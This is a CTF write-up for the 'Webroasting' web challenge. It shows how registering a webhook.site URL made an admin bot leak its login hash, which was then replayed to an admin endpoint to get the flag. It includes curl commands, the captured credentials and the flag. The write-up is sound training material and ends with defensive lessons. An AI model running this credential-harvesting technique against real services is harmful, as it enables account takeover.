

# Webroasting - CTF Challenge Writeup

## Challenge Overview
This challenge involved exploiting a FastAPI web application with multiple endpoints to capture admin credentials and gain access to the flag.

## Target Information
- **URL**: `http://68.219.177.187:8003`
- **Framework**: FastAPI 0.1.0
- **Challenge Type**: Web exploitation, Credential harvesting

## Initial Reconnaissance

### API Endpoints Discovery
The application exposed several endpoints through its OpenAPI documentation:

1. `GET /` - Index page
2. `POST /register` - Service registration endpoint
3. `GET /login` - Login form
4. `POST /login` - Login authentication
5. `GET /admin` - Admin form
6. `POST /admin` - Admin access endpoint

### Key Endpoints Analysis

#### POST /register
- **Purpose**: Register a service with a name and URL
- **Parameters**:
  ```json
  {
    "service_name": "string",
    "service_url": "string"
  }
  ```

#### POST /admin
- **Purpose**: Admin access with hash-based authentication
- **Parameters**:
  - `username`: string
  - `provided_hash`: string

## Exploitation Strategy

### Step 1: Service Registration for Credential Harvesting

The key insight was that the application likely has an admin bot that visits registered service URLs. By registering a webhook URL, we could capture any authentication attempts made by the admin bot.

**Command used**:
```bash
curl -X POST http://68.219.177.187:8003/register \
  -H 'Content-Type: application/json' \
  -d '{"service_name":"exploit","service_url":"https://webhook.site/bf4837bb-a011-4282-bd6a-39e20b46ad9c"}'
```

**Response**:
```json
{"message":"Service exploit registered successfully"}
```

### Step 2: Credential Capture

After registering the webhook URL, the admin bot made a login attempt to our webhook endpoint. This allowed us to capture the following credentials:

**Captured payload**:
```json
{
  "username": "admin",
  "kerberos_hash": "8592769bb7b43cb292d0d75991682328",
  "source": "admin-bot"
}
```

**Extracted credentials**:
- **Username**: `admin`
- **Hash**: `8592769bb7b43cb292d0d75991682328`



### Step 3: Admin Access

Using the captured credentials, we accessed the admin endpoint:

**Command used**:
```bash
curl -X POST http://68.219.177.187:8003/admin \
  -d "username=admin&provided_hash=8592769bb7b43cb292d0d75991682328"
```

**Response**:
```html
<!doctype html>
<html>
  <body>
    <h1>FLAG: SecurinetsENIT{27186e6c7a5b39d5d864031dcbe95a7f}</h1>
  </body>
</html>
```

## Technical Details

### Vulnerability Analysis
The application contained the following security issues:

1. **Insecure Service Registration**: The application allowed arbitrary URL registration without proper validation
2. **Admin Bot Behavior**: An automated admin bot visited registered URLs and inadvertently exposed credentials
3. **Credential Exposure**: The admin credentials were transmitted to external services during automated interactions

### Attack Vector
This was a **webhook-based credential harvesting attack** where:
1. We registered a malicious webhook URL as a service
2. The admin bot interacted with our webhook, exposing its credentials
3. We used the captured credentials to access the admin panel

## Flag
```
SecurinetsENIT{27186e6c7a5b39d5d864031dcbe95a7f}
```

## Lessons Learned

1. **Input Validation**: Service registration endpoints should validate and sanitize URLs
2. **Bot Security**: Admin bots should not expose sensitive credentials when visiting external URLs
3. **Access Control**: Hash-based authentication should use secure, non-predictable values
4. **URL Whitelisting**: Only trusted domains should be allowed for service registration

## Tools Used
- `curl` - For HTTP requests
- `webhook.site` - For credential capture
- Browser - For API documentation review

---
*Challenge completed successfully through webhook-based credential harvesting technique.*